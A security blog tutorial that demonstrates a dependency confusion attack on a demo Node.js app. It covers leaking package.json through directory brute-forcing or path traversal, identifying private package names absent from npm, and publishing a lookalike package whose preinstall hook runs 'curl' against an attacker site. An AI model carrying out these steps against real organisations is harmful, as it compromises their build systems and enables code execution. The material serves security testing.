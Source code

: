 ```yaml
---
title: "Exploiting Dependency Confusion"
date: 2021-06-01 13:37:31
description: Exploiting Dependency Confusion
---
```


In this blog, We will step by step exploit a demo application vulnerable to Dependency Confusion attack. 

This blog is not about what dependency confusion is, that you can read [here](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610).

## Introduction to demo app

Our demo application is a simple app with only Backend and Frontend. The application allows the User from frontend to check if a string has an XSS payload in it or not.

### Backend

The backend is running on http://demo-app.com:1337. 

There is an API endpoint `http://demo-app.com:1337/?text=PAYLOAD` that checks for XSS payload in it.

![](/website/assets/images/dep-conf-1.png)

### Frontend

Frontend is running on http://demo-app.com:3000

The Frontend takes a query parameter "text". It then hits the backend API with that query parameter text, looks for XSS in that text, and displays the result on screen (see below)

![](/website/assets/images/dep-conf-2.png)

![](/website/assets/images/dep-conf-3.png)


## Overview Dependency Confusion

To Find if an application is vulnerable to Dependency confusion, our first step is to find all the possible packages the web application is using.  

### What are packages?

We can think of packages as `Developers sharing code for other developers to reuse it`. 

For example, If a developer develops a mongo database wrapper to enable MongoDB connection, he can make a package and publish it online(at central repository) and other people can reuse them. 

Now, In case you do not want to share your package with everyone in the world but keep it secret to people in your organization you can host your packages on a private organization repo and only people in your organization can use it. For example. Let's say you have a custom authentication process that you think everyone can use in your company. Making it public will not be a good idea. So there is also a concept of private repositories where developers can share private packages. 

Our goal as an attacker is to find as many packages as possible used in Frontend/Backend and find the ones that are private to the organization. Once we know all private packages, we can host them on npm and the web application will download our package instead of the private package(that's how this vulnerability works).

## Exploiting demo app

### Step 1

Find Packages installed in backend application. To do this we will need to leak the package.json file somehow or if we can leak the application’s source code. Some ways to do it:

* Directory brute force for sensitive information leak
    * http://site.com/.git can leak full source
    * http://site.com/package.json maybe we can just read package.json

* If the application is vulnerable to Local file disclosure, we can use it to leak package.json 
    * http://site.com/?file=../../../package.json

* OSINT
    * If its an open source app, you can try finding the source code on GitHub and see packages used

etc.. The goal here is to use your hacker instinct to find the leak and get the information about packages installed.

Following the above steps, running dirsearch on our demo application backend(http://demo-app:1337/) show’s the following result:

![](/website/assets/images/dep-conf-4.png)

So we can see the package.json file is exposed. It lists the following packages installed.
![](/website/assets/images/dep-conf-5.png)

### Step 2

Find packages installed in the Frontend application. We can do this in the following ways:
* Reviewing frontend source code and look for required packages. Look for the term `require()` or `import` in the source code

    ![](/website/assets/images/dep-conf-6.png)

* Frontend Application might be returning `node_modules` folders back to the user. Some applications do that in debug mode

    ![](/website/assets/images/dep-conf-9.png)


etc.. Again, the goal is to use your hacker instincts and find the packages.

### Step 3

List all the packages 

* Frontend
    * react
    * ez-get-url-params [looks suspecious]
    * react-dom
    * react-refresh
    * url
    ...

* Backend
    * body-parser
    * express
    * xss-finder-0xsapra [looks suspecious]


### Step 4

Now that we have a list of all the packages used in the application, the next step is to find which one of them is `not` on `npm`. We can simply do this by visiting https://www.npmjs.com/ and search for the package name. 

So 2 packages which I cant find are:

* xss-finder-0xsapra
![](/website/assets/images/dep-conf-7.png)

* ez-get-url-params
![](/website/assets/images/dep-conf-8.png)

Meaning these are private packages.

### Step 5

Upload the package with similar name  `xss-finder-0xsapra` or `ez-get-url-params` on NPM(with preinstall scripts to get RCE). Here are steps to upload `xss-finder-0xsapra` and perform the attack chain

* git clone https://github.com/0xsapra/dependency-confusion-expoit
* cd dependency-confusion-expoit
* Edit package.json following fields
    * Change module name `"name": "ez-get-url-params",` to `"name": "xss-finder-0xsapra",`. 
    * Change Version `"version": "1.0.0",` to `"version": "1.0.0",`
        * As you can see, leaked package.json shows `xss-finder-0xsapra` is at version `1.0.0` so we use the same version
    * Change `"preinstall": "curl http://yoursite.co.m"` to `"preinstall": "curl http://yoursite.com"` 
        * preinstall is the command that gets executed. use any bash command you want here
    ![](/website/assets/images/dep-conf-10.png)

* After editing package.json, next step is to upload this package to npm. To do this you can follow the steps from https://zellwk.com/blog/publish-to-npm/ . Here's the same steps:
    * Login/Signup into npm from https://www.npmjs.com/signup
    * Open terminal/bash on login into npm from terminal using `npm login` command
    ![](/website/assets/images/dep-conf-11.png)
    * Run following in terminal `npm publish .` and it will publish `xss-finder-0xsapra` to npm
    ![](/website/assets/images/dep-conf-12.png)
* You can now find the package uploaded on https://npmjs.com (https://www.npmjs.com/package/xss-finder-0xsapra)

### Step 6

Now whenever backend code will run `npm install` it will install our package instead and run the `preinstall` script (curl command in our case).

![](/website/assets/images/dep-conf-13.png)

## Conslusion

Following the above 5 steps, you should be able to properly test an application for dependency confusion vulnerability. 

I hope this clears the attack. 